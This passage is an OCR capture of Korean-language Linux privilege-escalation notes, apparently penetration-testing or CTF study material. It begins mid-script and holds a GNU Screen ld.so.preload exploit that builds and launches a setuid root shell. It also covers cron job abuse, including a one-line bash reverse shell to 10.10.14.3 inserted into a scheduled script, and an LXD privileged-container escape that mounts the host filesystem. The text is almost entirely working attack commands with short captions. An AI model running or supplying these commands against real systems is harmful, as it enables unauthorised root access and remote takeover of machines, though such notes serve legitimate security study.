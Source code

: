 #include <unistd.h>
#include <sys/stat.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c -Wno-implicit-function-declaration
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so...
/tmp/rootshell
```

<br/><br/>
# Cron Job Abuse
```find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null```<br/>

- [pspy](https://github.com/DominicBreuker/pspy) : 다른 사용자가 실행한 명령, cron 작업 등 확인 도구
```
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64
./pspy64 -pf -i 1000
```

#### 작업 스크립트에 한줄 Reverse Shell 추가
```bash -i >& /dev/tcp/10.10.14.3/443 0>&1```

<br/><br/>
# 컨테이너

## 리눅스 컨테이너

### 리눅스 데몬
- Linux Daemon : [LXD](https://github.com/lxc/lxd)
```
lxc image import ubuntu-template.tar.xz --alias ubuntutemp
lxc image list
lxc init ubuntutemp privesc -c security.privileged=true
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
lxc start privesc
lxc exec privesc /bin/sh
```

<br/><br/>
# 도커

```